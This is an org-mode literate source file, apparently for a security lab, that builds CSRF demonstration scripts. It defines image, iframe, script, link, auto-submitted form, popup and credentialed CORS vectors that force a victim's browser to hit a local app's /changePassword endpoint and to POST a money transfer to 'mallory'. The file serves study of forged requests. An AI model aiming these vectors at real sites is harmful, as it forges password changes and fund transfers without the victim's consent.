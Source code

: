 #+title: CSRF

* OnLoad Function Call
jQuery detects the state of readiness of the page. Code include will run once the entire page (images or iframes), not just the DOM, is ready.
#+NAME: onload
#+BEGIN_SRC javascript
$(document).ready(function() {
#+END_SRC

* Variable Definitions
Defining variable names.
#+NAME: variable
#+BEGIN_SRC javascript
//var host="http://hidden-brushlands-4145.herokuapp.com/";
var host="http://localhost:3100";
var baseGetURL=host+"/changePassword";
var basePostURL=host+"/transfer";
var targetDiv=$('#targetDiv');
#+END_SRC

* URL Generator
The =getAutoURL= function generates a new url.
#+NAME: url
#+BEGIN_SRC javascript
var getAutoURL= function(){
	return baseGetURL+"?new="+generateRandomInt(500,1000);
}
#+END_SRC

* Random Number Generator
The =generateRandomInt= generates a random number.
#+NAME: random
#+BEGIN_SRC javascript
function generateRandomInt(min, max) {
	return Math.floor(Math.random() * (max - min + 1) + min);
}
#+END_SRC

* Get AutoVectors
The four autovectors are defined in variable getAutoVectors.
#+NAME: getautovector
#+BEGIN_SRC javascript
var getAutoVectors={
	img: '<img src="'+getAutoURL()+'" />',
	iframe: '<iframe src="'+getAutoURL()+'"></iframe>',
	script: '<script src="'+getAutoURL()+'"></script>',
	link: '<link href="'+getAutoURL()+'" rel="stylesheet"></iframe>'
}
#+END_SRC

* Get EventVectors
The four eventvectors are defined in variable geteventvector.
#+NAME: geteventvector
#+BEGIN_SRC javascript
var getEventVectors={
	anchor: '<a id="anGet" href=" '+getAutoURL()+' " target="tgtFrame">Submit</a>',
	formGet: '<form name="frmGet" method="GET" action="'+baseGetURL+'"  target="tgtFrame">'+
		'<input type="hidden" name="new" value="'+generateRandomInt(500,1000)+'"/> </form>',
	popup:'<script>window.open("'+getAutoURL()+'");</script>',
	windowNav: '<script>window.location.href="'+getAutoURL()+'";</script>'
 }
#+END_SRC

* Post Vectors
The vector raising post queries are defined in variable postEventVector.
#+NAME: postvector
#+BEGIN_SRC javascript
var postEventVector={
	formPost:  '<form name="frmPost" method="POST" action="'+basePostURL+'"  target="tgtFrame">'+
		' <input type="hidden" name="transferTo" value="mallory"/>'+
		' <input type="hidden" name="amount" value="'+generateRandomInt(200,400)+'"/> '+
		'</form>'
 }
#+END_SRC

* Get AutoVector Call
jQuery responds when any cross origin request is made using getAutoVector table.
#+NAME: getautovectortable
#+BEGIN_SRC javascript
$('#tblGetAutoVectors').click(function(e){
	if(e.target.nodeName==='A'){
	var vector=$(e.target).attr('vector');
		if(vector === 'corsGet'){
			//console.log('corsGet');
			//corsLib is defined in "cors-csrf.js" file. It has  CORS GET & POST methods 
			corsLib.get(getAutoURL());
		}
		else {
			var markup=getAutoVectors[vector];
			targetDiv.append(markup);
		}
	}
});
#+END_SRC

* Get EventVector Call
jQuery responds when any cross origin request is made using getEventVector table.
#+NAME: geteventvectortable
#+BEGIN_SRC javascript
$('#tblGetEventVectors').click(function(e){
	if(e.target.nodeName==='A'){
		//$('#targetContainers').css('opacity', 1);
		var vector=$(e.target).attr('vector'); //anchor, form
		var markup=getEventVectors[vector];
		targetDiv.append(markup);
		if (vector==='anchor') { 
			document.getElementById('anGet').click();
		} 
		if (vector==='formGet') { 
			document.forms.frmGet.submit();
		} 
	}
});
#+END_SRC

* Post Vector Call
jQuery respnds when any cross origin request is made using PostVector table.
#+NAME: postvectortable
#+BEGIN_SRC javascript
$('#tblPostVectors').click(function(e){
		if(e.target.nodeName==='A'){
			var vector=$(e.target).attr('vector');
			if(vector=== 'corsPost'){
				//console.log('corsPost');
				var params="transferTo=mallory&amount="+generateRandomInt(200,400);
				corsLib.post(basePostURL, params);
			}
			else{
				var markup=postEventVector[vector];
				targetDiv.append(markup);
				document.forms.frmPost.submit();
			}
		}
	});
});
#+END_SRC

* Corslib Object
#+NAME: corslib
#+BEGIN_SRC javascript
var corsLib = {
#+END_SRC

* Cross Origin Request
#+NAME: corsrequest
#+BEGIN_SRC javascript
makeCORSRequest: function(method, url) {
    var xhr = new XMLHttpRequest();
    if ("withCredentials" in xhr) {
        // XHR for Chrome/Safari/Firefox.
		xhr.withCredentials = true;
        xhr.open(method, url, true);
    } else if (typeof XDomainRequest != "undefined") {
        // XDomainRequest for IE.
        xhr = new XDomainRequest();
        xhr.open(method, url);
    } else {
        // Browser doesn't support CORS
        xhr = null;
    }
    return xhr;
},
#+END_SRC

* Get CORS Request
#+NAME: getcors
#+BEGIN_SRC javascript
get: function (getUrl) {
    var url = getUrl;
    var xhr = this.makeCORSRequest('GET', url);
    if (!xhr) {
        alert('CORS not supported');
        return;
    }

    xhr.onload = function () {
        var text = xhr.responseText;
		//console.log('CORS request URL: \n' + url + '\n\nCORS Response: \n' + text);
    };

    xhr.onerror = function (err) {
        //console.log(err);
    };

    xhr.send();
},
#+END_SRC

* Post CORS Request
#+NAME: postcors
#+BEGIN_SRC javascript
post: function (postUrl, params) {
        var url = postUrl;
        //var params = 'name=' + txtName;

        var xhr = this.makeCORSRequest('POST', url);
        if (!xhr) {
            alert('CORS not supported');
            return;
        }

        xhr.onload = function () {
            var text = xhr.responseText;
            //console.log('CORS request URL: \n' + url + '\n\nCORS Response: \n' + text);
        };

        xhr.onerror = function () {
            //console.log('Woops, there was an error making the request.');
        };
        
        xhr.setRequestHeader("Content-Type", 'application/x-www-form-urlencoded');
        xhr.send(params);
    }
}
#+END_SRC

* Tangle CSRF
#+NAME: functions
#+BEGIN_SRC javascript :tangle csrf.js :eval no :noweb yes
<<onload>>
<<variable>>
<<url>>
<<random>>
<<getautovector>>
<<geteventvector>>
<<postvector>>
<<getautovectortable>>
<<geteventvectortable>>
<<postvectortable>>
#+END_SRC

* Tangle CORS-CSRF
#+NAME: corsfunctions
#+BEGIN_SRC javascript :tangle cors-csrf.js :eval no :noweb yes
<<corslib>>
<<corsrequest>>
<<getcors>>
<<postcors>>
#+END_SRC
